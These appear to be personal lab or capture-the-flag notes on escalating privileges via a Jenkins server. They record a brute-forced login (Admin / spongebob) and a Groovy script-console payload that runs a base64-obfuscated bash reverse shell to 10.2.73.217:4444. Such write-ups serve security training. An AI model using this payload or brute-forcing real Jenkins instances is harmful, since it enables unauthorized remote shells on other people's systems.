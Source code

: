 
# PrivEsc
After reviewing the privesc materials again, I'm confident the exploit will either be

- Some internal only port

![[Pasted image 20220205100624.png]]

- Some other foothold that grants higher level than `www-data`
- A kernel exploit
![[Pasted image 20220205100754.png]]
![[Pasted image 20220205100826.png]]

I decided to brute force Jenkins.

The header size changed here, at the password `spongebob`

It worked!

> Jenkins Login
> User
> ```
> Admin
> ```
> Pass
> ```
> spongebob
> ```


Using this script

```bash
def sout = new StringBuffer(), serr = new StringBuffer()                                                          def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yLjczLjIxNy80NDQ0IDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()                                                                                                proc.consumeProcessOutput(sout, serr)                                                                             proc.waitForOrKill(1000)                                                                                          println "out> $sout err> $serr"
```